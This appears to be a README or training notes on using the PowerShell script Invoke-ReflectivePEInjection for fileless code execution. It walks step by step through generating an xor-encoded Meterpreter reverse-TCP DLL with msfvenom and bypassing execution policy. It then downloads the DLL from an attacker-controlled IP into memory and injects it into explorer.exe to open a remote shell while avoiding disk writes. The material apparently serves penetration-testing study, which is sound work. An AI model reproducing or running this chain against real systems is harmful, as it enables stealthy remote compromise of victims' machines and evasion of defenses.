 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# How to use
1. Create a DLL payload using msfvenom and upload it to the target machine:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```

2. To use `Invoke-ReflectivePEInjection`, we must first upload the script to the target machine and import it from its location with Import-Module:
```powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

3. Next we will load the DLL into a byte array and retrieve the explorer process ID and :
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```

4. Finally, supply the byte array (-PEBytes) and process ID (-ProcId) and execute the script
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
